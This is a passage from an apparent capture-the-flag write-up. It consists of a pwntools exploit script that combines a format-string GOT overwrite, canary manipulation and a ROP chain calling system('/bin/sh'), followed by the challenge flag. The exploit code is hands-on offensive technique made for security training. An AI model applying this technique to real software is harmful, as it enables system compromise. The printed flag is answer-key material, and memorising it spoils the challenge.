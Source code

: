 ```py
        p += b'%14$hn'
        p += b'%%%dc%%15$hn' % (((elf.sym["main"] + 284) & 0xffff) - 1)
        p += b'%%%dc%%16$n' % ((pop5_ret_addr & 0xffffffff) - ((elf.sym["main"] + 284) & 0xffff))
        p += b'\x00' * (40 - len(p))
        p += p64(elf.got["printf"] + 4)
        p += p64(canary_addr)
        p += p64(elf.got["__stack_chk_fail"])
        p += p64(elf.got["printf"])
        p += b'/bin/sh\x00'

        # gdb.attach(io, gdbscript='b *0x0000000000400938')

        io.sendline(b'-100000')
        io.sendlineafter(b'audience?\n', p)

        p = b'A' * 8
        p += p64(next(elf.search(asm('pop rdi ; ret'), executable=True)))
        p += p64(binsh_addr)
        p += p64(next(elf.search(asm('ret'), executable=True)))
        p += p64(elf.sym["system"])

        sleep(3)
        io.sendline(p)

        io.interactive()
        return 0
    else:
        print(r[-4:])
        io.close()
        # io.interactive()
        return 1
    # stack_addr = int(r[-19:-7].decode(), 16)
    # print(f'stack addr = {hex(stack_addr)}')

cnt = 0
while(guess()):
    cnt += 1
    print(f'take {cnt}')

```

FLAG: `sdctf{d4mn_y0u_g0t_M3_4g4iN_1M_p00R}`